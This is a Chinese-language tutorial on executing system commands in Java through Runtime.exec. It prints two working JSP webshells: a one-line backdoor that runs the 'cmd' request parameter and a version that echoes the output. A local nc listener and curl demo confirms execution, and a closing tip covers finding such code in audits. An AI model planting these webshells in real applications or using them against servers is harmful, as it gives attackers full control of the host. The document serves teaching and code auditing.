


# Java本地命令执行

Java原生提供了对本地系统命令执行的支持，黑客通常会`RCE利用漏洞`或者`WebShell`来执行系统终端命令控制服务器的目的。

对于开发者来说执行本地命令来实现某些程序功能(如:ps 进程管理、top内存管理等)是一个正常的需求，而对于黑客来说`本地命令执行`是一种非常有利的入侵手段。

## Runtime命令执行

在Java中我们通常会使用`java.lang.Runtime`类的`exec`方法来执行本地系统命令。


**runtime-exec2.jsp执行cmd命令示例:**

```java
<%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>
```

1. 本地nc监听9000端口:`nc -vv -l 9000`

2. 使用浏览器访问:http://localhost:8080/runtime-exec.jsp?cmd=curl localhost:9000。

   我们可以在nc中看到已经成功的接收到了java执行了`curl`命令的请求了，如此仅需要一行代码一个最简单的本地命令执行后门也就写好了。



上面的代码虽然足够简单但是缺少了回显，稍微改下即可实现命令执行的回显了。

**runtime-exec.jsp执行cmd命令示例:**

```
<%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>
<%--
  Created by IntelliJ IDEA.
  User: yz
  Date: 2019/12/5
  Time: 6:21 下午
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.InputStream" %>
<%
    InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    byte[] b = new byte[1024];
    int a = -1;

    while ((a = in.read(b)) != -1) {
        baos.write(b, 0, a);
    }

    out.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
%>
```

命令执行效果如下：



代码审计时搜索下`Runtime.getRuntime`这个关键字就可以快速定位了。